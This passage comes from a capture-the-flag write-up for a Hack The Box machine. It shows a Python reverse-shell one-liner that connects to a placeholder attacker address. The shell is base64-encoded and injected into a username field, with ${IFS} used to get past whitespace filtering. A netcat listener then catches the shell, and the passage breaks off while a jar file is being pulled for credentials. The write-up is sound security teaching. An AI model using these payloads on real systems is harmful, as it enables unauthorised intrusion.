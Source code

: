 and try to execute bash command

![08-rce](https://github.com/amalcew/htb-writeups/assets/73908014/abc8b955-f2de-4823-84a4-1c7990b4f61c)

The prompt is 100% vulnerable to remote code execution. To leverage this, we need to create a payload that will spadn reverse shell to attacking machine. After some experiments with different shell, Python 3 was chosen:

```bash
> cat reverse_shell.sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

> cat reverse_shell.sh | base64 -w 0
cHl0aG9u ... SNIP ... KTsnCg==
```

Example payload was created:

```bash
user;echo${IFS}cHl0aG9u ... SNIP ... KTsnCg==|base64${IFS}-d|/bin/bash;
```

where `${IFS}` is special shell variable that can be used instead of whitespace rejected by the prompt. The payload is ready to be executed.

We need to create a `netcat` process listening on selected port...

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
```

and submit the payload...

![image](https://github.com/amalcew/htb-writeups/assets/73908014/4bee690a-28cd-4c1b-8c80-b1057109958d)

which spawns the bash reverse shell:

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.230] 36204
bash: cannot set terminal process group (991): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
app@cozyhosting:/app$ 
```

## Escalating privileges and obtaining user flag

Right after obtaining the shell we can find `.jar` file of some application. `wget`-ing the file and opening it with 
`jd-gui` reveals PostgreSQL credentials:

